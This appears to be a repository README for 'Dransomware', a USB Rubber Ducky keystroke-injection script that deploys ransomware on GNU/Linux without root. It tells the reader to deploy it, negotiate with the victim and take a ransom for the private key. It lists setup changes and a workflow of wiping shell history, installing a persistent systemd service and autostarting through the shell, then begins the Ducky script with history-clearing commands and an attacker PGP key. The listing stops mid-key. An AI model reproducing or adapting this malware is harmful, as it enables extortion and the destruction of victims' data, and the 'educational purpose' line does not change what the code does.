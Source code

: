 # Dransomware

## About:
* Title: Dransomware
* Description: Ransomware which encrypts users data without root privileges
* AUTHOR: drapl0n
* Version: 1.0
* Category: Ransomware
* Target: GNU/Linux
* Attackmodes: HID

## Dransomware is USB Rubber Ducky Script with ransomware which will encrypt user's data without root privileges in 30 sec's.

* Deploy Dransomware, negotiate with victim and acquire ransom in exchange of private key.
* Tested on Kali linux and Parrot OS.
* Only for educational purpose.
### Changes to be made:
* Change Public Key in [importing gpg public key] section.
* Change your key name in [dransomware] section.
* Optional: You can change paths. [Be carefull while doing this].
* Change your contact details in order to contact user and acquire ransom.

### Forkflow:
1. Stop storing history, this helps to keep tracks clear from begining.
2. Importing Public GPG key (this can be done by storing key on server and fetching it via wget or curl to reduce execution time).
3. Creating non-root systemd service.
4. Deploying Ransomware.
5. Autostarting service on opening terminal with shell (bash and zsh).
6. Entering Message.

### Ducky Script:
```
REM [Keeping tracks clear & importing gpg public key]
DELAY 500
CTRL-ALT t
DELAY 1000
STRING unset HISTFILE && HISTSIZE=0 && rm -f $HISTFILE && unset HISTFILE
ENTER
DELAY 300
REM Rather than printing key you can upload your key on server and fetch it using wget or curl.
REM This method is for scenerio where their is no internet access to the system
STRING touch public.pub
ENTER
DELAY 200
STRING vi public.pub
ENTER
DELAY 50
STRING i
DELAY 200
STRING -----BEGIN PGP PUBLIC KEY BLOCK-----
ENTER
ENTER
STRING mQGNBGDn6UkBDADmUM3GGq6zlBFYq8hX78ZTZnMH8IrxYo9cr5Ni2DTyD5Ci+gPY
ENTER
STRING 2udDro6dfDy4uuKjNafPmaRf+1rvMbZYhINmnHeldV3bKskrKYL7nU29MlealK+c
ENTER
STRING hGE1AhFkJuv01eXCkJ8sLvXifzopTxWkffydEOeyrXEbIHFalmmrkYaFR9x87Rax
```